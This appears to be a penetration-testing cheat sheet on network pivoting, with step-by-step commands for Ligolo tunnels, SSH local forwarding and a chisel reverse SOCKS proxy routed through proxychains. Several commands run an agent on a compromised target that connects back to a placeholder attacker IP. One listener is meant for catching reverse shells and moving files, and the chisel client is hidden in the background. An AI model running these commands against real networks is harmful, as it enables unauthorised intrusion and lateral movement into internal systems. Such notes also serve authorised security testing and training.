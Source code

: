 ### Ligolo
###### This is great for tunneling to another internal network.
```
#Create network interface for ligolo
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

#Start proxy on your machine
./lin-proxy -selfcert -laddr 0.0.0.0:7000

#Start agent on target machine
./lin-agent -connect <attacker IP here>:7000 -ignore-cert
.\win-agent -connect <attacker IP here>:7000 -ignore-cert

#Add network routes on your machine
sudo ip route add <ip-add>/24 dev ligolo

#Start ligolo session and start routing traffic
session
start

==============================================================================================

#To add a listener to catch traffic from the further internal network back to your host.
#Good for transferring files and catching rev shells.

#Enter session on host.
session

#Add listener
#Anything sent to this host on port 1234 will go to our kali on 4444.
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

#Check lisener is active
listener_list

```

### Port Forwarding

###### This is great for forwarding just one local port on the target to your machine.

#### Local
```
#Forwards a port from a remote machine to your kali machine.
#Run this on the kali machine.
ssh -L <kali_port>:localhost:<target_port> <target_username>@<target_ip>

#Check if the port is listening (run on both target and host.)
ss -ntplu

#Target port examples
mysql -h localhost -p <target_port>
curl http://localhost:<target_port>
```

#### Dynamic Remote
This is good for reaching multiple internal local ports.

```
#On your machine
chisel server --port 80 --reverse

#On the target machine
chisel client <kali_ip>:80 R:socks > /dev/null 2>&1 &

#Add to /etc/proxycahins4.conf file
socks5	127.0.0.1 1080

#Sending traffic (can also configure foxy proxy too.)

#For reaching ports on that host
proxychains <command> <localhost>:<target_port>

#For reaching ports on the wider internal network
proxychains <command> <int_host>:<target_port>
```


